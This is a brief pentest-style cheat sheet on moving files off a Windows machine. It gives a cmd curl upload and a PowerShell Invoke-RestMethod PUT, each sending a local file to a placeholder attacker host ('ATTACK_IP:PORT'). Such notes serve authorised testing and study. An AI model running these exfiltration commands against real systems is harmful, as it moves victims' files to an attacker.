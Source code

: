 # File Transfer from Windows

### 1) cmd

    curl --upload-file test.txt http://ATTACK_IP:PORT/

### 2) powershell

    Invoke-RestMethod -Uri http://ATTACK_IP:PORT/REMOTE_FILE -Method PUT -InFile TARGET_FILE
